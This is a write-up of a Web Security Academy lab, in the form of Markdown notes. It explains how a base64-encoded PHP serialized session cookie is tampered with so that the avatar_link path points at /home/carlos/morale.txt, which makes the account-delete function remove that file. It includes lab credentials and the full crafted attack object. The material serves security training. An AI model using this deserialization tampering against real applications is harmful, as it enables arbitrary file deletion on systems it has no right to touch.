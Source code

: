 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

# Recon

The serialized session cookie is obtained after a successful login

![[serialized-cookie.png]]

# Vuln assessment

The session cookie seems to be an url and base64 encoded PHP object:

![[serialized-object.png]]

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"v1zp5e8nm9xi1uo2wt9ztza9c9ty5r3x";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

The object seems to contain the path to the user's avatar picture.

![[attack-object.png]]

The application also has a functionality to delete the user's account 

![[delete-account-funct.png]]

When setting an avatar it is available in:

```
https://0aef0053037b5d21800385cb0020000a.web-security-academy.net/avatar?avatar=gregg
```

When trying to delete the account setting the path to the image:

```
/home/carlos/morale.txt
```

The following error appears:

![[error-home-carlos.png]]

# Exploitation

Let's try with `users/carlos/morale.txt`

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"jg6n12pmydmgsmyr7t0ngb46aqrwzlo3";s:11:"avatar_link";s:18:"users/carlos/morale.txt";}
```

REMEMBER to update the string length in the serialized object when replacing the string with the target file path:

```
s:23:"/home/carlos/morale.txt"
```

The full attack object is:

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"jg6n12pmydmgsmyr7t0ngb46aqrwzlo3";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Base64 and URL encode it, replace the session cookie with the result and sending the request will solve the lab.

![[exploited.png]]